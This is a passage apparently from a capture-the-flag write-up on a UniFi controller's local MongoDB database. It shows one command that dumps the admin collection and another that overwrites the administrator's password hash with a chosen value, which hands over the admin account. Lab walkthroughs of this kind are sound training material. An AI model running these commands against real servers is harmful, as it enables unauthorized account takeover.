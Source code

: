 ```shell {linenos=false}
$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

![db](/img/tier2/db.png)

To update `administrator`'s password to `unified`, we simply need to run:

```shell {linenos=false}
$ mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$dDywalcPwNgl3LkM$Ex3SObZFkVQ5kMk4Cmur7I9qDDKOyLNLrYbHGqt0JGz49G8fRb9KIAvFMS3AS8jGuOU/4nY5H5OtNq9/Qmpl1"}})'
```
